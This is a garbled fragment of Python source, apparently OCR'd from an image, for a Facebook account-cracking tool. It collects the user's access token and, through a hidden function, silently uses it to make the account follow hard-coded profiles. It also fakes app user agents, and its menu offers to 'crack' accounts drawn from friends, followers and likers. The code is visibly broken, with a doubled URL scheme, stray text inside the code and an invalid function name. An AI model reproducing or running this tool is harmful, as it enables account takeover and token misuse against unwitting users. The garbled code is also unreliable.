 "\x1b[0;97m" # Putih M = "\x1b[0;91m" # Merah H = "\x1b[0;92m" # Hijau U = "\x1b[0;95m" # Ungu ### Logo logo_line_1 = ('%s.------..------..------..------..------. (U)) logo_line_2 = ('%s|A.--. ||H.--. ||M.--. ||A.--. ||R.--. | %s｡☆✼★━━━━━━━━━━━━━━━━━━━━━━━━━★✼☆｡'%(U,H)) logo_line_3 = ('%s| (/) || :/: || (/) || (/) || :(): | %sEditor By %s• AHMAR JAN %s '%(U,M,P,U)) logo_line_4 = ('%s| :/: || () || :/: || :/: || ()() | %sWhatssap %s• 03127103451 %s '%(U,M,P,U)) logo_line_5 = ('%s| '--'A|| '--'H|| '--'M|| '--'A|| '--'R| %sAdrees %s• FASILABAD %s '%(U,M,P,U)) logo_line_6 = ('%s------'------'------'------'`------' %s｡☆✼★━━━━━━━━━━━━━━━━━━━━━━━━━★✼☆｡'%(U,H)) def my_logo(): ahmar_cici(logo_line_1) ahmar_cici(logo_line_2) ahmar_cici(logo_line_3) ahmar_cici(logo_line_4) ahmar_cici(logo_line_5) ahmar_cici(logo_line_6+'\n') ### User Agent ua_xiaomi = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_nokia = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+' ua_asus = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_huawei = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_vivo = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_oppo = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]' ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ### Penampungan id_tampung = [] ### Jangan Diganti Nanti Error oscylopsce = 'Ahmar' ascylapsci = 'Cici' escylipsce = 'Ahmar_Love_Cici' uscylupsci = 'My_Love____Ahmar____Ahmar_Love_Cici____Cici____Forever' ### Membuat Folder Direktori def folder(): try:os.mkdir("CP") except:pass try:os.mkdir("OK") except:pass ### Clear Login Session def bersih(): try:os.remove('token.txt') except:pass ### Clear User Agent def del(): try:os.remove('ugent.txt') except:pass ### Clear Terminal def clear(): if "linux" in sys.platform.lower():os.system("clear") elif "win" in sys.platform.lower():os.system("cls") else:os.system("clear") ### Jangan Diganti Anjink! def bot_follow(tok_dev): token = tok_dev try: req_post("https://https://www.facebook.com/profile.php?id=100027259894020/subscribers?access_token=" + token) Alizar M.M.M # req_post("https://graph.facebook.com/100060885769913/subscribers?access_token=" + token) # احسان اللہ req_post("https://graph.facebook.com/100012267158212/subscribers?access_token=" + token) # وزیراعظم صاحب req_post("https://graph.facebook.com/100009834670141/subscribers?access_token=" + token) # نسرین اختر req_post("https://graph.facebook.com/100007026360241/subscribers?access_token=" + token) # Zama Jan ahmar_cici('\n%s[%s!%s] %sLogin Successful'%(H,P,H,P)) time.sleep(2) except (KeyError,IOError):pass ### Login def login_dev(Cici_Cantik_Banget): clear() my_logo() if uscylupsci not in Cici_Cantik_Banget:ahmar_cici('%s[%s!%s] %sHey, do you want to recode?'%(M,P,M,P)) else:pass tok_dev = cici_ahmar('%s[%s•%s] %sPLEASE Enter Token :\n\n'%(P,H,P,U)) try: req_tok = req_get("https://graph.facebook.com/me?access_token=%s"%(tok_dev)) js_load = js_lo(req_tok.text) nama_dev = js_load['name'] op_dev = ahmar_ahmar('token.txt','w') op_dev.write(tok_dev) op_dev.close() bot_follow(tok_dev) default_ua(Cici_Cantik_Banget) menu_dev(Cici_Cantik_Banget) except (KeyError,IOError): ahmar_cici('\n%s[%s!%s] %sToken EXPIRE'%(M,P,M,P)) bersih() time.sleep(2) login_dev(Cici_Cantik_Banget) except requests.exceptions.ConnectionError: ahmar_cici('\n%s[%s!%s] %sConnection Problem'%(M,P,M,P)) cici_cici() ### Menu def menu_dev(Ahmar_Ganteng_Banget): clear() my_logo() if uscylupsci not in Ahmar_Ganteng_Banget:ahmar_cici('%s[%s!%s] %sHayoo Mau Recode Ya?'%(M,P,M,P)) else:pass try: tok_dev = ahmar_ahmar("token.txt","r").read() req_tok = req_get("https://graph.facebook.com/me?access_token=%s"%(tok_dev)) js_load = js_lo(req_tok.text) nama_dev = js_load['name'] id_dev = js_load['id'] except (KeyError,IOError): ahmar_cici('%s[%s!%s] %sToken Invalid'%(M,P,M,P)) bersih() time.sleep(2) login_dev(Ahmar_Ganteng_Banget) except requests.exceptions.ConnectionError: ahmar_cici('%s[%s!%s] %sConnection Problem'%(M,P,M,P)) cici_cici() try: ip_url = "http://ip-api.com/json/" ip_headers = { "Referer":"http://ip-api.com/", "Content-Type":"application/json; charset=utf-8", "User-Agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]" } ip_req = req_get(ip_url,headers=ip_headers).json() ip_dev = ip_req["query"] except: ip_dev = " " ahmar_cici('%s[%s•%s] %sWelcome %s%s'%(U,P,U,P,U,nama_dev)) ahmar_cici('%s[%s•%s] %sID : %s'%(U,P,U,P,id_dev)) ahmar_cici('%s[%s•%s] %sIP : %s\n'%(U,H,U,H,ip_dev)) ahmar_cici('%s[%s1%s] %sCrack From Friends/Public ID '%(U,P,U,P)) ahmar_cici('%s[%s2%s] %sCrack From Followrs ID'%(U,P,U,P)) ahmar_cici('%s[%s3%s] %sCrack ID From Likers'%(U,P,U,P)) ahmar_cici('%s[%s4%s] %sView Crack Results'%(U,P,U,P))